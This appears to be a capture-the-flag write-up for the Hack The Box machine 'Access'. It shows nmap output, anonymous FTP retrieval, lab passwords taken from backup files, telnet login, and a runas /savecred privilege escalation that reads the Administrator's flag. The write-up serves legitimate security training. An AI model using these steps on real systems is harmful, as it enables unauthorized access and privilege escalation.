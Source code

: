 ```yaml
---
title: "Access - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Access
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Access
![](https://kar0nx.github.io/assets/images/writeup/adef7ad3d015a1fbc5235d5a201ca7d1.webp)
 
## Reconnaissance

IP: 10.10.10.98
### NMAP

```
nmap -T4 -p- -A 10.10.10.98
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 07:45 EST
Nmap scan report for 10.10.10.98
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)                                                                                            
No exact OS matches for host (test conditions non-ideal).                                                               
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 27s

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.10.14.1
2   31.65 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.46 seconds
```

Nmap shows 3 open ports 21 - FTP, 23 - telnet, and 80 - http.
Site is simple Windows ISS, so enumerate ftp.

## FTP

```
ftp 10.10.10.98
	anonymous
	anonymous
```

Anonymous login works great, and we have 2 files here, let's download it and check

```
binary 
cd backup
get backup.mdb
cd ..
cd engineer
get "access control.zip"
```

After long exploring backup db, I found credentials 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308134508.png)

No one works with telnet but one is password for:

```
access control.zip  -- access4u@security
```

let's load output into outlook and explore. I found that password for security account has been changed

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308135350.png)

## Gaining Access
### Telnet

```
telnet 10.10.10.98
	security
	4Cc3ssC0ntr0ller
```

I manage to log in via telnet what gives low-level access as security user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308135559.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308140051.png)

We can grab first flag

```
type C:\Users\security\Desktop\user.txt
```

## Privilege Escalation

After gaining access to the machine, I looked for potential ways to escalate privileges. I discovered that I could use runas to run commands as the Administrator user by utilizing the /savecred option.

I used the following runas command to execute a command as Administrator and save the credentials:

```
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

```
c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"
```

This command runs as the Administrator user and saves the output of root.txt to a location where the security user can access it.

After that we can type root.txt

```
C:\Users\security>type root.txt
```
